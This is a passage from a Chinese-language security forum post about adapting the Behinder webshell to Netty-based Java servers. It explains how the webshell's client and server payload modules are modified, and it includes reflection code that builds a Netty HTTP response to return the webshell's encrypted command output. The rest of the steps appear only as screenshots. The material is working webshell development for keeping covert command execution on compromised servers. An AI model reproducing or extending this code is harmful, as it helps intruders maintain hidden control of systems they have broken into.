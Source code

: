 **0.3.2 response的获取**

再看response，netty中的response并不是继承自javax.servlet.ServletResponse  
![image030.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-527f9d7fce29041e019ac615e66023b364bbc690.png)

![image032.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-40674b5e3408ce714c6dde9b308a740d7cb64f97.png)  
那么根据这些内容先编写能够回显POST body数据的代码，读body的代码如下  
![image034.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-64d0851ef985198a43a9fa41a1907fbde10ff50c.png)  
写入回显的代码如下：  
![image036.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-90f41fe502e3747e9ea29ba20265732a52c032d9.png)  
效果如下：  
![image038.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9e31f84aa4394c07298bfc207bad3897b43629a6.png)  
因为netty的request和response都不是冰蝎中的对应类，而且没有初始化session（待考证），所以这个时候就要改动冰蝎的客户端和服务端，首先是客户端，客户端的改进主要是针对response做类的判断，这里依次修改冰蝎下Java的每个payload模块response做处理，在做处理之前则是需要对response写入的回显过程进行反射变形  
![image040.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-6a730bb289d93e6406359bb497e60231a13765ad.png)  
按照c0ny1师傅的Demo对其修改如下：

```php
Class<?> httpObjectClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.handler.codec.http.HttpVersion");
Class<?> responseStatuClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.handler.codec.http.HttpResponseStatus");
Class<?> byteBufferClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.buffer.ByteBuf");
Class<?> responseClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.handler.codec.http.DefaultFullHttpResponse");
Class<?> unpooledClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.buffer.Unpooled");
Class<?> listnerClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.channel.ChannelFutureListener");
Class<?> contextClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.channel.ChannelOutboundInvoker");
Class<?> GenericClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.util.concurrent.GenericFutureListener");
Field httpField = httpObjectClass.getDeclaredField("HTTP_1_1");
httpField.setAccessible(true);
Object httpObject = httpField.get(null);
Field httpStatuField = responseStatuClass.getField("OK");
httpStatuField.setAccessible(true);
Object httpStatuObject = httpStatuField.get(null);
Field lisCloseField = listnerClass.getDeclaredField("CLOSE");
lisCloseField.setAccessible(true);
Object lisCloseObject = lisCloseField.get(null);
Method copiedBufferMethod = unpooledClass.getDeclaredMethod("copiedBuffer", new Class[]{java.lang.CharSequence.class, Charset.class});
copiedBufferMethod.setAccessible(true);
Object bufObject = copiedBufferMethod.invoke(null, new Object[]{new String(this.Encrypt(this.buildJson(result, true))), Charset.forName("UTF-8")});
Constructor responseConstructor = responseClass.getDeclaredConstructor(new Class[]{httpObjectClass, responseStatuClass, byteBufferClass});
responseConstructor.setAccessible(true);
Object responseObject = responseConstructor.newInstance(new Object[]{httpObject, httpStatuObject, bufObject});
Method getHeadersMethod = responseObject.getClass().getSuperclass().getSuperclass().getDeclaredMethod("headers", new Class[]{});
getHeadersMethod.setAccessible(true);
Object headersObject = getHeadersMethod.invoke(responseObject);
Method setHeaderMethod = headersObject.getClass().getSuperclass().getDeclaredMethod("set", new Class[]{String.class, Object.class});
setHeaderMethod.setAccessible(true);
setHeaderMethod.invoke(headersObject, new Object[]{"content-type", "text/plain; charset=UTF-8"});
```